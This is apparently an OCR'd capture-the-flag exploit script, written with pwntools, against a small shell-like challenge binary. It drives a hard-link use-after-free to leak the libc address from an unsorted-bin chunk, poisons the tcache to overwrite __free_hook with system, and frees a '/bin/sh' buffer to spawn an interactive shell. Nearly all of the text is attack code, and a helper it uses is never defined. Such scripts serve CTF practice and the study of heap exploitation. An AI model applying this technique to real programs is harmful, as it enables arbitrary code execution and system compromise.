 ```

def vi(name, cont):
    Cmd('vi %s'%(name))
    sh.sendline(cont)

def rm(name):
    Cmd('rm %s'%(name))

def cat(name):
    Cmd("cat %s"%(name))

def ln(new, old):
    Cmd("ln %s %s"%(new, old))

#prepare chunk
for i in range(8):
    name = "A%d"%(i)    
    touch(name)
    vi(name, str(i)*0x300)

#make ln
ln("l_A0", "A0")
ln("l_A7", "A7")

#full Tcache, Tcache-&gt;A7-&gt;A6-&gt;...-&gt;A1
for i in range(1, 8):
    name = "A%d"%(i) 
    rm(name)

#get UB chunk
rm("A0")        #UB&lt;=&gt;A0 and l_A0-&gt;A0

#leak addr
cat("l_A0")
libc.address = u64(sh.recv(8))-0x1ebbe0
Log('libc.address')

#forge tcache list
vi("l_A7", flat(libc.symbols['__free_hook']))

#control __free_hook
touch("A7")
vi("A7", '7'*0x300)

touch("shell")
vi("shell", '/bin/sh\x00'*8)

touch("hook")
vi("hook", p64(libc.symbols['system']).ljust(0x300, '\x00'))

#getshell
#GDB()
rm('shell')

sh.interactive()

'''
telescope 0x0000555555578ec0 3
'''
```
